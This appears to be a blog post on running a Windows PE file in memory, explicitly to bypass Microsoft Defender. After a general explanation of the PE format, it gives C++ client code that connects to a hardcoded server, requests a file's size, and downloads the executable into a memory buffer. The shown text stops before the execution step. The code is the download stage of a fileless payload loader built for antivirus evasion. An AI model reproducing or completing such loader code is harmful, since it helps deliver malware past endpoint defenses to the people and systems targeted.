 ```yaml
---
title: Remote Run PE 
layout: post
---
```


## Intro

Hi , today I will tell you how we can execute PE in memory and how we can bypass defender by using this 

## What is PE ?

PE (Portable Executable) is an executable and object file format used in Windows family operating systems such as Windows NT, Windows 2000, Windows XP, Windows 7, Windows 10, and others.

PE files include executable files (usually with the .exe extension), dynamic libraries (DLLs), and other file types that can be run on the Windows platform. The PE format was introduced in Windows NT and replaced the older NE (New Executable) format used in earlier versions of the operating system.

In brief, a PE file is an executable file format such as .exe (executable programs) and .dll (dynamic libraries) used in Windows operating systems.

You can read more here https://0xrick.github.io/win-internals/pe2/

## How to run PE in memory ?

In order to run a PE file, first of all it must be received, in our case we will receive the file using tcp and store this buffer in memory.

In my example, when connecting to the server, it asks to get the file size to increase the buffer, then the client sends a start command to get the file. After the server sends the file, we save it to the buffer as vector<char>. 

```cpp
printf("[+] Connecting!\n");

//Initialize tcp client class 
TCPClient tcpClient;

//Receiving buffer
std::vector<char> recvBuff;
int iResult;

//Value to check correct actions
BOOL bConnResult;
BOOL bSendResult;

// Contecting to server
bConnResult = tcpClient.connectToServer("192.168.222.128", 4443);;
if (!bConnResult) {
	return CONNECTION_ERROR;
}

printf("[+] Connected!\n");
printf("[+] Send command to get file size!\n");

// Send to the server to get file size
bSendResult = tcpClient.sendToServer("GetFileSize");
if (!bSendResult) {
	return SENDING_ERROR;
}

// validation
iResult = tcpClient.reciveData();
if (iResult <= 0) {
	return RECIVE_DATE_ERROR;
}

// Getting received buffer 
recvBuff = tcpClient.getBuffer();

// vector<char> to string 
std::string sFileLength(recvBuff.begin(), recvBuff.end());
printf("[+] Received data: %s\n", sFileLength.c_str());

// str to int 
int iFileLength = std::stoi(sFileLength);

// Change the buffer length for the received data  
tcpClient.setBufLen(iFileLength);

printf("[+] Send command to load PE!\n");

//Send to the server for load PE in memory
bSendResult = tcpClient.sendToServer("start");
if (!bSendResult) {
	return SENDING_ERROR;
}

//We use delay to make sure the server sends the whole file.
Sleep(1000 * 5);

// Getting data
iResult = tcpClient.reciveData();
if (iResult <= 0 ) {
	return RECIVE_DATE_ERROR;
}

// save to our buffer 
recvBuff = tcpClient.getBuffer();
printf("[+] Received data: %.*s\n", iResult, recvBuff.data());
```











